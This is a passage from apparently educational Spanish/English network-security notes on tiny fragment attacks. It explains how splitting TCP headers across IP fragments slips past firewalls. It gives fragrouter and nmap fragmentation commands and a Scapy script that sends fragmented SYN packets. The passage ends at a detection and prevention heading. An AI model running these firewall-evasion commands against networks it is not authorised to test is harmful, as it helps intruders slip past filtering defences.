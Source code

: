### Tiny Fragment Attacks

#### Fragmentos Miniatura para Evasión
```
Tiny Fragment Attack:
Normal TCP Packet:
[IP Header 20][TCP Header 20][Data]

Tiny Fragment Attack:
Fragment 1: [IP Header 20][TCP partial 8]
Fragment 2: [IP Header 20][TCP remainder 12][Data]

Problem:
- First fragment doesn't contain complete port info
- Firewall can't make proper filtering decision
- Some systems allow tiny fragments through
- Reassembly creates complete malicious packet
```

#### Herramientas para Ataques de Fragmentación
```bash
# Fragrouter - fragment packets in various ways
fragrouter -B1 192.168.1.100

# Nmap fragmentation options
nmap -f target_ip                    # Fragment packets
nmap --mtu 8 target_ip              # Custom MTU size
nmap -sS -f --data-length 200 target_ip

# Custom fragmentation con Scapy
python3 -c "
from scapy.all import *

def tiny_frag_attack(target, port):
    # Create normal SYN packet
    packet = IP(dst=target)/TCP(dport=port, flags='S')
    
    # Fragment with tiny fragments (8 bytes)
    fragments = fragment(packet, fragsize=8)
    
    # Send fragments with delay
    for frag in fragments:
        send(frag)
        time.sleep(0.1)

tiny_frag_attack('192.168.1.100', 80)
"
```

---

## Detección y Prevención
